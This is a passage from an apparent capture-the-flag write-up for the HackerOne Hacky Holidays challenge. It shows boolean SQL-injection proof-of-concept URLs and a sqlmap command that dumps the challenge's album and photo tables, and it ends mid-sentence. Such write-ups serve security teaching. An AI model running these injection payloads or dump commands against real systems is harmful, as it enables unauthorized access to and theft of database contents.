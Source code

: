 ```
200     Successful request with data returned
204     Successful request but with no data found
404     Invalid Endpoint
400     Invalid GET/POST variable
401     Unauthenticated Request or Invalid client IP
```
Furthur fuzzing `/api/*` gives us 401 which is `Unauthenticated Request or Invalid client IP`. So we need some kind of `SSRF` to visit this endpoint.

On furthur fuzzing the endpoint [https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k](https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k), we can confirm that it is vulnerable to sql-injection. POC: 
* 200 OK:  `https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k' and true-- -`
* 404 Not found: `https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k' and false-- -`

Here we can use `sqlmap` tool to dump all the tables and values in it.

```bash
>> sapra@Macbook-Pro $  sqlmap -u "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k"  --risk 3 --level 3 --dump

[01:25:57] [INFO] fetching current database
[01:25:57] [INFO] fetching tables for database: 'recon'
...
Database: recon
Table: album
[3 entries]
+----+--------+-----------+
| id | hash   | name      |
+----+--------+-----------+
| 1  | 3dir42 | Xmas 2018 |
| 2  | 59grop | Xmas 2019 |
| 3  | jdh34k | Xmas 2020 |
+----+--------+-----------+
...
Database: recon
Table: photo
[6 entries]
+----+----------+--------------------------------------+
| id | album_id | photo                                |
+----+----------+--------------------------------------+
| 1  | 1        | 0a382c6177b04386e1a45ceeaa812e4e.jpg |
| 2  | 1        | 1254314b8292b8f790862d63fa5dce8f.jpg |
| 3  | 2        | 32febb19572b12435a6a390c08e8d3da.jpg |
| 4  | 3        | db507bdb186d33a719eb045603020cec.jpg |
| 5  | 3        | 9b881af8b32ff07f6daada95ff70dc3a.jpg |
| 6  | 3        | 13d74554c30e1069714a5a9edda8c94d.jpg |
+----+----------+--------------------------------------+
...
```

* We have 2 tables `photo` and `album`. 
* `album.id` is `foreign-key` to `photo.album_id`. This simply means they are called in conjunction. A simple query of getting all photos with `hash=3dir42` would look like

